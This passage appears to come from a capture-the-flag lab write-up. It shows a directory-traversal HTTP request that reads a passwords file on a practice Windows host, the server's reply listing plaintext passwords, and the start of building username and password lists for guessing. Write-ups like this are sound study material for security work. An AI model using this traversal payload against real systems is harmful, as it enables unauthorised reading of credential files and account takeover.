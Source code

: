 
It’s a local privesc because with a shell on the box, I can get the admin
plaintext password from the config files, and then login and create a job to
get a shell. I’ll keep this in mind.

## Shell as nadine

### Get Passwords

I first tried to read the NSClient++ config file using the directory traversal
vulnerability, but it didn’t work.

I know from the FTP note that there is a file with passwords at
`C:\users\nathan\desktop\passwords.txt`. I’ll use the directory traversal
vulnerability to try to read that file, and it works:

    
    
    GET /../../../../../../../../../../../../users/nathan/desktop/passwords.txt HTTP/1.1
    Host: 10.10.10.184
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: dataPort=6063
    Upgrade-Insecure-Requests: 1
    

Returns:

    
    
    HTTP/1.1 200 OK
    Content-type: text/plain
    Content-Length: 156
    Connection: close
    AuthInfo: 
    
    1nsp3ctTh3Way2Mars!
    Th3r34r3To0M4nyTrait0r5!
    B3WithM30r4ga1n5tMe
    L1k3B1gBut7s@W0rk
    0nly7h3y0unGWi11F0l10w
    IfH3s4b0Utg0t0H1sH0me
    Gr4etN3w5w17hMySk1Pa5$
    

### Check Passwords

Since I only have a list of passwords without usernames, I’ll create a list of
what I know now:

    
    
    root@kali# cat users 
    administrator
    nathan
    nadine
    root@kali# cat passwords 
    1nsp3ctTh3Way2Mars!
    Th3r34r3To0M4nyTrait0r5!
    B3WithM30r4ga1n5tMe
    L1k3B1gBut7s@W0rk
    0nly7h3y0unGWi11F0l10w
    IfH3s4b0Utg0t0H1sH0me
    Gr4etN3w5w17hMySk1Pa5$
    